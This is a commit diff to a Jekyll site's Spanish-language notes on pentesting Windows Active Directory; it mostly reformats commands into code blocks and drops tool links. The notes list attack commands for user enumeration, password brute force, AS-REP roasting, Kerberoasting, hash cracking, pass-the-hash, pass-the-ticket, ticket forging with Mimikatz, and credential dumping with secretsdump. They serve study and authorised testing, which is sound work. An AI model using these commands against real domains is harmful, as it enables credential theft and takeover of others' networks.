

Before and after one commit to 7yri0n/7yri0n.github.io, a Jekyll site: the page built from pentesting/pentesting_win_AD.md, in a window 1280 px wide and 1400 px high, scrolled down 2023 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Renombrar y modificaciones

````diff
--- a/_includes/components/project-meta.html
+++ b/_includes/components/project-meta.html
@@ -2,7 +2,7 @@
     <div class="card bg-light mb-3 space-before">
         <div class="card-body">
             <div class="card-title">
-                <h5>On This Page</h5>
+                <h5>Menú</h5>
             </div>
             <ul class="nav flex-column nav-pills header-list">
             </ul>
@@ -10,7 +10,7 @@
                 <span class="icon grey mr-1">
                     {% include entypo/arrow-left.svg %}
                 </span>
-                <a href="{{ site.baseurl }}{% link list/projects.md %}">Back to the contents</a>
+                <a href="{{ site.baseurl }}{% link list/projects.md %}">Documentation</a>
             </div>
         </div>
     </div>
--- a/_layouts/defaults/project.html
+++ b/_layouts/defaults/project.html
@@ -6,7 +6,7 @@ layout: default
     {{ page.title }}
 </h1>
 
-<div class="d-md-block d-lg-none">
+<div class="d-md-block d-lg-block">
     {% include components/project-meta.html %}
 </div>
 
--- a/pentesting/pentesting_win_AD.md
+++ b/pentesting/pentesting_win_AD.md
@@ -6,25 +6,17 @@ title: Pentesting Windows AD
 
 **Impacket** es una colección de herramientas realizada en Python que trabaja con protocolos de red a bajo nivel. Algunos protocolos son SMB1-3 y MSRPC.
 
-[Github Impacket](https://github.com/SecureAuthCorp/impacket)
-
-[Explicación de sus distintas herramientas](secureauth.com/labs/open-source-tools/impacket)
-
 **Bloudhound** es una herramienta que utiliza gráficos para revelar las relaciones ocultas (relaciones de confianza, grupos anidados, etc..) dentro de un Active Directory. Se puede usar con **neo4j** que es un software orientado a grafos.
 
-[Github Bloodhound](https://github.com/BloodHoundAD/BloodHound)
-
 **Rubeus** es una herramienta que permite ejecutar diversos tipos de ataques contra el protocolo Kerberos. Herramienta de post-explotación. Pertenece a Ghostpack.
-
-[Github Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
 
 ## Enumeration SMB (445) y RDP(139)
 
 Con la herramienta **enum4linux.pl** se puede enumerar la información de los servicios SMB(445) y RDP(139).
 
-`sudo ./enum4linux -a [IP]`
-
-[Github enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
+```bash
+sudo ./enum4linux -a [IP]
+```
 
 ## Kerbrute
 
@@ -32,11 +24,15 @@ Con la herramienta **enum4linux.pl** se puede enumerar la información de los se
 
 Enumeración de usuarios:
 
-`kerbrute userenum -d [domain] --dc [dc_domain] [list_user.txt]`
+```bash
+kerbrute userenum -d [domain] --dc [dc_domain] [list_user.txt]
+```
 
 Bruteforce con cuenta de usuario AD:
 
-`kerbrute bruteforce -d [domain] --dc [dc_domain] [pass.txt] [user]`
+```bash
+kerbrute bruteforce -d [domain] --dc [dc_domain] [pass.txt] [user]
+```
 
 Ventajas:
 
@@ -57,28 +53,36 @@ La respuesta AS-REP contiene un pedazo del mensaje cifrado con la clave del usua
 
 En caso de que se disponga de una cuenta de usuario del dominio, se podrían obtener los usuarios que no necesiten pre-authentication Kerberos con una consulta LDAP:
 
-`(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))`
+```bash
+(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
+```
 
 Con la herramienta **GetNPUsers.py** de Impacket podemos recolectar mensajes AS-REP sin pre-authentication desde una lista de usuarios:
 
-`python GetNPUsers.py [domain]/ -usersfile [user.txt] -format hashcat -outfile hashes.asreproast`
-`python GetNPUsers.py [domain]/[user] -no-pass`
+```bash
+python GetNPUsers.py [domain]/ -usersfile [user.txt] -format hashcat -outfile hashes.asreproast
+python GetNPUsers.py [domain]/[user] -no-pass
+```
 
 Usando **Rubeus.exe**:
 
-`Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`
-
+```bash
+Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast
+```
 
 ## Crackeando peticiones AS-REP (Hashcat o John)
 
 Con Hashcat:
 
-`hashcat -m 18200 --force -a 0 hashes.asreproast [pass.txt]`
+```bash
+hashcat -m 18200 --force -a 0 hashes.asreproast [pass.txt]
+```
 
 Con John:
 
-`john --wordlist=password_kerb.txt hashes.asreproast`
-
+```bash
+john --wordlist=password_kerb.txt hashes.asreproast
+```
 
 ## Kerberoasting !REVISAR¡
 
@@ -88,28 +92,37 @@ Recolectar TGS's para aquellos servicios que corren en el contexto de un usuario
 
 Para obtener las cuentas de usuario que tien servicios asociados, se puede usar el filtro LDAP:
 
-`(&(samAccountType=805306368)(servicePrincipalName=*))`
+```bash
+(&(samAccountType=805306368)(servicePrincipalName=*))
+```
 
 Con la herramienta **GetUserSPN.py** (impacket):
 
-`python GetUserSPN.py [domain]/[users]:[password] --outputfile hashes.kerberoast`
+```bash
+python GetUserSPN.py [domain]/[users]:[password] --outputfile hashes.kerberoast
+```
 
 Con este comando, obtenemos un fichero con un TGS por linea que se puede utilizar en Hascat o John para obtener las credenciales de los usuarios.
 
 Con la herramienta **Rubeus.exe** (desde el Windows del usuario del dominio comprometido):
 
-`Rubeus.exe Kerberoast /outfile:hashes.Kerberoast`
-
+```bash
+Rubeus.exe Kerberoast /outfile:hashes.Kerberoast
+```
 
 ## Crackeando los TGS's
 
 Con **Hashcat**:
 
-`hashcat -m 13100 --force -a 0 hashes.Kerberoast [pass.txt]`
+```bash
+hashcat -m 13100 --force -a 0 hashes.Kerberoast [pass.txt]
+```
 
 Con **John**:
 
-`john --format=krb5tgs --wordlist=[pass.txt] hashes.Kerberoast`
+```bash
+john --format=krb5tgs --wordlist=[pass.txt] hashes.Kerberoast
+```
 
 ## Pass The Hash ¡Falta!
 
@@ -121,13 +134,19 @@ Se utiliza el hash NTLM de un usuario para solicitar tickets de Kerberos, como a
 
 Con **getTGT.py** (impacket):
 
-`python getTGT.py [domain]/[user] -hashes [hash NTLM]`
+```bash
+python getTGT.py [domain]/[user] -hashes [hash NTLM]
+```
 
 Obteniendo el TGT, podemos usar otras herramientas como **psexec.py** para acceder a los sistemas Windows que se pueda con el TGT. Importamos el TGT en el sistema:
 
-`export KRB5CCNAME=/root/impacket-examples/[user.ccache]`
+```bash
+export KRB5CCNAME=/root/impacket-examples/[user.ccache]
+```
 
-`python psexec.py [domain]/[user]@[equipo domain] -k -no-pass`
+```bash
+python psexec.py [domain]/[user]@[equipo domain] -k -no-pass
+```
 
 Se obtendra una shell. Este ticket se puede utilizar con otros scripts de Impacket con el parametro -k u otras herramientas ya que este ticket TT se guarda en un fichero .ccache (formato utilizado en Linux para almacenar tickets)
 
@@ -135,11 +154,15 @@ Se obtendra una shell. Este ticket se puede utilizar con otros scripts de Impack
 
 Con **Rubeus.exe** y **PsExec**, el siguiente comando importa el ticket en Windows:
 
-`Rubeus.exe asktgt /domain:[domain] /user:[user] /rc4:[hash NTLM] /ptt`
+```bash
+Rubeus.exe asktgt /domain:[domain] /user:[user] /rc4:[hash NTLM] /ptt
+```
 
 Obtenemos una shell en dicho equipo:
 
-`.PsExec.exe -accepteula \[IP/equipo].[domain] cmd`
+```bash
+.PsExec.exe -accepteula \[IP/equipo].[domain] cmd
+```
 
 ## Pass The Ticket (PTT)
 
@@ -165,9 +188,9 @@ Solo es necesario copiar estos ticketsa nuestra máquina para realizar el Pass T
 
 Los tickets almacenados en los keyrings user o session solo pueden ser accedidos por el propietario en su sesión.<span style="color:red">Aunque cuando la herramienta se ejecuta como root, busca otras sesiones de usuario en la misma máquina y se inyecta en cada una de ellas para poder acceder a los tickets</span>
 
-`evil-winrm -i [ip_address] -u [user] -H [hash]`
-
-[Github Evil-winrm](https://github.com/Hackplayers/evil-winrm)
+```bash
+evil-winrm -i [ip_address] -u [user] -H [hash]
+```
 
 Desde Windows, el proceso lsass (Local Security Authority Subsystem Service) es el encargado de almacenar los tickets en un Sistema Windows. Es necesario establecer una comunicación con lsass y pedirlos.
 
@@ -178,11 +201,15 @@ Desde Windows, el proceso lsass (Local Security Authority Subsystem Service) es
 
 Con **Mimikatz.exe**:
 
-`sekurlsa::tickets /export`
+```bash
+sekurlsa::tickets /export
+```
 
 Con **Rubeus**:
 
-`.Rubeus dump`
+```bash
+.Rubeus dump
+```
 
 ## Conviertiendo tickets entre Windows y Linux
 
@@ -190,35 +217,48 @@ Windows y Linux no guardan los tickets con el mismo formato: ccache (Linux) y ki
 
 Con **ticket_converter.py**:
 
-`python ticket_converter.py ticket.ccache ticket.kirbi`
+```bash
+python ticket_converter.py ticket.ccache ticket.kirbi
 
-`python ticket_converter.py ticket.kirbi ticket.ccache`
+python ticket_converter.py ticket.kirbi ticket.ccache
+```
 
 ## Acceder al sistema con el ticket
 
 
 Desde Linux, utilizando psexec.py de Impacket:
 
-`export KRB5CCNAME=/root/impacket-examples`
+```bash
+export KRB5CCNAME=/root/impacket-examples
 
-`python psexec.py [domain name]/[user client]@[target machine] -k -no-pass`
+python psexec.py [domain name]/[user client]@[target machine] -k -no-pass
+```
 
 Si Impacket devolvía un error [-] SMB SessionError:STATUS_ACCESS_DENIED, esto se debe a que se usó un ticket sin la flag A (pre-autenticado), ya que el propietario no necesita autenticación para solicitar el ticket. Para comprobar si un ticket tiene el flag A activado:
 
-`klist -f -c [ticket]`
-
+```bash
+klist -f -c [ticket]
+```
 
 Desde Windows, utilizando mimikatz.exe para inyectar el ticket sin ningún privilegio:
 
-`kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi` (result: OK)
+```bash
+kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi
+```
+
+(result: OK)
 
 Después con psexec.py:
 
-`.PsExec.exe -accepteula \[target_machine] [command]`
+```bash
+.PsExec.exe -accepteula \[target_machine] [command]
+```
 
 Con Rubeus para inyectar tickets:
 
-`Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi`
+```bash
+Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi
+```
 
 Tras inyectar el ticket de un usuario, es posible suplantarlo en máquinas remotas, pero no en la local, donde no se aplica Kerberos.
 
@@ -229,13 +269,17 @@ Es posible forjar tickets utilizando las claves AES de un usuario (AES128 y AES2
 
 Desde Linux, usando **ticketer.py** de Impacket:
 
-`python ticketer.py -nthash [NTLM hash] -domain-sid [sid] -domain [domain_name] -spn`
+```bash
+python ticketer.py -nthash [NTLM hash] -domain-sid [sid] -domain [domain_name] -spn
+```
 
 Ejecución similar a PTT, pero el ticket se crea manualmente a través del hash NTLM.
 
 Desde Windows, usando Mimikatz para forjar el ticket, se debe tener en cuenta que el ticket se puede construir en una máquina local fuera de la red objetivo, y luego enviarselo a la máquina deseada e inyectarlo con Rubeus, y ejecutar comandos remotos con PsExec.py
 
-`kerberos::golden /domain:[domain_name] /sid:[sid] /rc4:[NTLM] /user:[user] /service:[service] /target:[target_machine]`
+```bash
+kerberos::golden /domain:[domain_name] /sid:[sid] /rc4:[NTLM] /user:[user] /service:[service] /target:[target_machine]
+```
 
 ## Golden Ticket
 
@@ -259,7 +303,9 @@ Tecnicas utilizadas para volcar las credenciales de un Windows Host comprometido
 
 2. Password hashes: Obtener los hashes de las contraseñas de local, credenciales del dominio cacheadas.
 
-`secretsdump.py -sam sam.save -security security.save -system system.save [domain]/[user]:[password]@[ip address]`
+```bash
+secretsdump.py -sam sam.save -security security.save -system system.save [domain]/[user]:[password]@[ip address]
+```
 
 ## Mitigaciones
 
````
Also changed, not shown: other parts of pentesting/pentesting_win_AD.md (+11 -0 lines), monitorizacion/logs_paloalto.md (deleted, +0 -146 lines), analisisAlertas/logs_paloalto.md (renamed from analisisAlertas/analisisAlertas_logs_paloalto.md).
